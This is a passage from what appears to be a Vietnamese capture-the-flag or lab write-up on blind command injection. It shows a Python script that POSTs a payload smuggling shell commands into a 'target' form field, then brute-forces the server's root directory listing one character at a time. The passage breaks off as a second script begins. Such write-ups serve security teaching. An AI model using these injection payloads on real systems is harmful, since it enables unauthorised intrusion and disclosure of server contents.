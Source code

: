 - Bây giờ ta sẽ brute force bằng vòng lặp để kiểm tra từng kí tự một:

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for c in charset:
        #đây là payload exploit
        inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c 1` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c)
        # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
        # hai tham số POST sẽ được dặt vòa một tham số thứ 2
        r = requests.post(URL, {'command':'backup', 'target':inject})
        #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
        print(r.text)
    ```

    ![alt text](IMG/6/image-12.png)

- Bây giờ ta sẽ thực hiện brute force từng kí tự của mỗi kí tự thứ i, sau đó chỉ in ra kí tự nếu mà thỏa mãn:

    ```py
    import requests
